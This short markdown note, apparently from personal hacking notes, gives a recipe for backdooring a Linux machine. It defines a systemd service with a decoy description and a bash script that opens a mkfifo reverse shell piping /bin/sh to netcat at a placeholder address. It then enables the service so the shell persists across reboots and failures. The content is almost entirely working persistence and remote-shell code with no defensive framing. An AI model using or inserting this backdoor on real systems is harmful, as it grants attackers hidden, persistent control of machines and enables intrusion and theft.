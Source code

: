 Backdoor

https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c

## Systemd with nc openbsd

Service in `/etc/systemd/system`:
```
[Unit]                                                               Description=Just For Fun
After=network.target auditd.service
[Service]
Type=simple
ExecStart=<script_location>
ExecReload=<script_location>
Restart=on-failure
RestartSec=5
[Install]
WantedBy=multi-user.target
```

File in <desired_folder> :
```
#!/bin/bash
FILE=/tmp/f
if [ -f "$FILE" ]; then
/bin/rm /tmp/f
fi
/usr/bin/mkfifo /tmp/f
/bin/cat /tmp/f|/bin/sh -i 2>&1|/bin/nc <ip> <port> >/tmp/f
```

Then :
```
chmod +x <file>
systemctl enable <service>
```